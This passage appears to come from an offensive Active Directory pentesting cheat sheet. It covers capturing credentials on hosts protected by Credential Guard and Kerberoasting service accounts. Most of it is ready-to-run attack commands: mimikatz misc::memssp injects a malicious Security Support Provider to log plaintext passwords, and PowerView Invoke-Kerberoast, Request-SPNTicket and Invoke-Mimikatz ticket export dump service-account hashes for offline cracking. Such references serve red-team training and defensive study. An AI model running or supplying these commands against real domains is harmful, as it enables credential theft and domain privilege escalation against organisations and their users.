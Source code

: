 ### LSA is running as virtualized process \(LSAISO\) by Credential Guard

```text
#Check if a process called lsaiso.exe exists on the running processes
tasklist |findstr lsaiso

#If it does there isn't a way tou dump lsass, we will only get encrypted data. But we can still use keyloggers or clipboard dumpers to capture data.
#Lets inject our own malicious Security Support Provider into memory, for this example i'll use the one mimikatz provides
mimikatz # misc::memssp

#Now every user session and authentication into this machine will get logged and plaintext credentials will get captured and dumped into c:\windows\system32\mimilsa.log
```

* [Detailed Mimikatz Guide](https://adsecurity.org/?page_id=1821)
* [Poking Around With 2 lsass Protection Options](https://medium.com/red-teaming-with-a-blue-team-mentaility/poking-around-with-2-lsass-protection-options-880590a72b1a)

## Domain Privilege Escalation

### Kerberoast

_All standard domain users can request a copy of all service accounts along with their correlating password hashes, so we can ask a TGS for any SPN that is bound to a "user"  
account, extract the encrypted blob that was encrypted using the user's password and bruteforce it offline._

#### Using PowerView:

```text
#Get User Accounts that are used as Service Accounts
Get-NetUser -SPN

#Get every available SPN account, request a TGS and dump its hash
Invoke-Kerberoast

#Requesting the TGS for a single account:
Request-SPNTicket
  
#Export all tickets using Mimikatz
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

#### Using PowerShell AD Module:

```text
#Get User Accounts that are used as Service Accounts
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```
